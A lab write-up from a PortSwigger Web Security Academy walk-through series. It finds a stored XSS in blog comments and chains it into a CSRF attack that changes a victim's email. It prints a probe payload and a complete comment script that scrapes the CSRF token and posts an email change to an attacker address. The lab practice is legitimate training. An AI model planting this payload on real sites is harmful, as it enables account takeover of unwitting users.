










# Write-up: Exploiting XSS to perform CSRF @ PortSwigger Academy



This write-up for the lab *Exploiting XSS to perform CSRF* is part of my walk-through series for [PortSwigger's Web Security Academy](https://portswigger.net/web-security).

Learning path: Client-side → Cross-site scripting (XSS)

Lab-Link: <https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)  

## Lab description



## Steps

### Analysis

As usual, the first step is to analyze the functionality of the lab application, in this case, a blog website.

### Find stored XSS

There is one place within the public pages where any visitor can add content: the comment sections under each article (the lab description already states where it is, but it is the only place to store something anyway).

So I try if I am able to insert HTML tags within the fields:





In the name, the tags are properly encoded. However, my tags within the comment appear to get inserted directly back into the page content.

As a next step I want to find the answer to two questions:

- Can I insert a full script block?
- Can I add a script within an `` tag?
- Are there any relevant characters that are blocked or encoded so that I can not use them in the XSS?

To find these answers, I use the following payload:

```
<script>alert(document.domain)</script>

xX';!--"<XSS>=\&{()}<br />Xx
```



When I view the comment, I get both alert boxes and see all characters in the HTML source. I found my place for inserting the stored XSS.

---

### Find out how to change email

Now it is time to use the provided credentials and log in as a `wiener`. The objective of the lab is to change the email of a victim, so I look at how this works:



The request is protected by a CSRF token which is stored in a hidden input field of the email change form.

Generally speaking, such a token is the proper way to protect against CSRF attacks and browsers will prevent me from reading content via JavaScript from other origins.

In this case, however, I have an XSS vulnerability at hand where this restriction does not apply as it is running at the very same origin.

---

### Chain the vulnerabilities

To get things working, I need to chain these vulnerabilities together:

- A CSRF attack that sends the request to change the email
- The stored XSS obtains the CSRF token and delivers that CSRF attack

My XSS needs to extract the CSRF token from the `/my-account` page. The most flexible way is to use a regular expression to both parse through the HTML and return the token. 

A quick search brought me to the documentation of [match](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/match) and how to interpret its return value:


To find the proper expression I turn to [regex101](https://regex101.com/), using the full HTML source of the account page as the test string.



With this tool, I find my regex to be `csrf" value="(\w+)"`. Not using the `g` flag ensures that the CSRF token is included in the result of the match as the second item in the return array of `match`

---

### The malicious comment

Now is the time to put everything together. My XSS comment now looks like this:

```html
<script>
var r = new XMLHttpRequest();
r.onload=function() {
    csrf = this.responseText.match(/csrf" value="(\w+)"/)[1];
    var attack = new XMLHttpRequest();
    attack.open("POST", "https://0a74007e040c37b4c0f5013c009600e3.web-security-academy.net/my-account/change-email", true);
    attack.send("email=mail@evil.me&csrf=" + csrf);
}
r.open("GET", "https://0a74007e040c37b4c0f5013c009600e3.web-security-academy.net/my-account", true);
r.withCredential = true;
r.send();
</script>
```

First, it gets the account website. From the result, it extracts the CSRF token and issues another request to the email change functionality. 



Right after sending the comment, the lab updates to



After manually accessing the comment page and going to the account page I can verify that the email was indeed changed by just viewing the comment:



---

If you found this article helpful, please give it a clap. To get notified of more write-ups, follow me on [GitHub](https://github.com/frank-leitner) or [medium](https://medium.com/@frank.leitner).
